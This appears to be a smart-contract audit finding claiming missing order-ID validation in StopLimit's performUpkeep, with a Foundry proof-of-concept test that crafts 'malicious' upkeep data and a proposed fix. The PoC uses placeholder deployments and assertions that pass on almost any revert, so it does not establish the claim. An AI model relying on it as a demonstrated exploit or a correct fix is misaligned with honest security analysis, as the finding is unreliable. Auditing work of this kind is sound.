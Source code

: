 Mean Brown Barbel

High

# Insufficient Order ID Validation in StopLimit Contract

## Summary


The `StopLimit` contract have insufficient validation of order IDs during the `performUpkeep` operation, which lead to incorrect execution of orders. performUpKeep contains the data for data.orderId but instead of reverting with mismatch orderId reason, current implementation executes another order with data.target and data.txdata causing unwanted malicious tx to execute


## Impact

Incorrect order execution - Execution of different orders with data of different orderId
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L85

## POC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/automatedTrigger/OracleLess.sol";
import "../src/automatedTrigger/IAutomation.sol";
import "../src/automatedTrigger/AutomationMaster.sol";
import "../src/automatedTrigger/StopLimit.sol";
import "../src/interfaces/uniswapV3/IPermit2.sol";
import {MockERC20} from "./mocks/MockERC20.sol";
import {IPythRelay} from "../src/oracle/IPythRelay.sol";
import {MockPythRelay} from "./mocks/MockPythRelay.sol";
import {MaliciousTarget} from "./MaliciousTarget.sol";

contract SherlockContestTest is Test {
    OracleLess public oracleLess;
    AutomationMaster public automationMaster;
    IPermit2 public permit2;
    StopLimit public stopLimit;
    // Test tokens
    MockERC20 public mockTokenIn;
    MockERC20 public mockTokenOut;
    MockPythRelay public mockOracleIn;
    MockPythRelay public mockOracleOut;

    // Test accounts
    address public owner;
    MaliciousTarget public maliciousTarget;

    function setUp() public {
        // Set up accounts
        owner = address(this);

        // Deploy dependencies
        automationMaster = new AutomationMaster();
        permit2 = IPermit2(deployPermit2()); // You'll need to implement this or use a mock

        // Deploy main contract
        oracleLess = new OracleLess(automationMaster, permit2);
        stopLimit = new StopLimit(automationMaster, IBracket(address(0)), permit2);

        // Deploy test tokens
        mockTokenIn = new MockERC20("Token A", "TKNA", 18);
        mockTokenOut = new MockERC20("Token B", "TKNB", 18);


        mockOracleIn = new MockPythRelay();
        mockOracleOut = new MockPythRelay();

        // Setup oracles in AutomationMaster
        IERC20[] memory tokens = new IERC20[](1);
        tokens[0] = IERC20(address(mockTokenIn));
        IPythRelay[] memory relays = new IPythRelay[](1);
        relays[0] = IPythRelay(address(mockOracleIn));
        automationMaster.registerOracle(tokens, relays);

        // Do the same for mockTokenOut
        tokens[0] = IERC20(address(mockTokenOut));
        relays[0] = IPythRelay(address(mockOracleOut));
        automationMaster.registerOracle(tokens, relays);

        automationMaster.setMaxPendingOrders(10);

        automationMaster.setMinOrderSize(1);
    }

    function deployPermit2() internal returns (address) {
        // You can either:
        // 1. Deploy a mock Permit2
        // 2. Fork mainnet and use the real Permit2 address
        // 3. Deploy the actual Permit2 contract
        // For this example, let's assume we're using a mock
        return address(0x1); // Replace with actual deployment
    }
    function testIncorrectOrderIdValidation() public {
        // Setup initial state
        address user = makeAddr("user");
        // Setup token approvals and balances
        mockTokenIn.mint(user, 1000);
        vm.startPrank(user);
        mockTokenIn.approve(address(stopLimit), 1000);

        // Create initial order
        stopLimit.createOrder(
            100, // stopLimitPrice
            150, // takeProfit
            50, // stopPrice
            1000, // amountIn
            IERC20(address(mockTokenIn)),
            IERC20(address(mockTokenOut)),
            user,
            100, // feeBips
            100, // takeProfitSlippage
            100, // stopSlippage
            100, // swapSlippage
            false, // swapOnFill
            false, // permit
            "" // permitPayload
        );
        vm.stopPrank();

        // Create malicious performData
        bytes memory performData = abi.encode(
            IAutomation.MasterUpkeepData({
                orderType: IAutomation.OrderType.STOP_LIMIT,
                target: address(this),
                txData: "",
                pendingOrderIdx: 0,
                orderId: 999, // Different from actual orderId
                tokenIn: IERC20(address(mockTokenIn)),
                tokenOut: IERC20(address(mockTokenOut)),
                slippage: 100,
                amountIn: 1000,
                exchangeRate: 90
            })
        );

        // Try to catch any revert
        try stopLimit.performUpkeep(performData) {
            revert("Expected revert not thrown");
        } catch Error(string memory reason) {
            // Verify it's not reverting with "Order Fill Mismatch"
            assertTrue(
                keccak256(bytes(reason)) != keccak256(bytes("Order Fill Mismatch")),
                "Should not revert with 'Order Fill Mismatch'"
            );
        } catch {
            // If it reverts with a different type of error, test passes
        }
    }
```
The test `testIncorrectOrderIdValidation` demonstrates that the contract's behavior when handling invalid order IDs (ID: 999) doesn't properly validate the order ID against existing orders. The test specifically checks that the contract doesn't revert with an "Order Fill Mismatch" error, suggesting inadequate validation.

## Mitigation

```solidity
        require(
            data.orderId == pendingOrderIds[data.pendingOrderIdx],
            //@audit-issue the check is incorrrect, order.orderId is used instead of data.orderId
            "Order Fill Mismatch"
        );
```
use data.orderId instead of order.orderId since `data.orderId == pendingOrderIds[data.pendingOrderIdx]` will always revert when we have mismatch 